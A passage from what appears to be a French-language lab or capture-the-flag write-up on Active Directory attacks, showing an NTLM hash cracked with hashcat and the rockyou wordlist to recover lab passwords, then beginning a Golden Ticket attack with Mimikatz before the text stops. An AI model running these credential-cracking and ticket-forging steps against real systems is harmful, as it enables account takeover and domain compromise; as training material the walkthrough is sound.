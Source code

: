 ### Crack those hashes with hashcat

On va utiliser hashcat pour en craquer un. Comme hashcat demande le type du hash à craquer, on recherche à quoi correspond NTLM :

```sh
kali@kali:~$ hashcat --help | grep NTLM      
   5500 | NetNTLMv1 / NetNTLMv1+ESS                        | Network Protocols
   5600 | NetNTLMv2                                        | Network Protocols
   1000 | NTLM                                             | Operating System 
```

NTLM est le type 1000, et on note qu'il est le type de hash utilisé pour les systèmes d'exploitations. Passons alors au cracking :

```sh
kali@kali:~/Documents$ hashcat -m 1000 "64f12cddaa88057e06a81b54e73b949b" /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

64f12cddaa88057e06a81b54e73b949b:Password1       
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: 64f12cddaa88057e06a81b54e73b949b
Time.Started.....: Mon Aug 17 09:56:12 2020 (0 secs)
Time.Estimated...: Mon Aug 17 09:56:12 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    27042 H/s (0.71ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096/14344385 (0.03%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> oooooo
```

Le mot de passe de `Machine1` est donc `Password1` !
De même, celui de `Machine2` est `Password2`.

## Golden Ticket attacks with Mimikatz

Cette attaque vise à dumper le hash et sid de l'utilisateur krbtgt, afin d'obtenir un shell admin sur toutes les machines. On commence par utiliser mimikatz avec les privilèges admin (`privilege::debug` doit retourner `20`) :

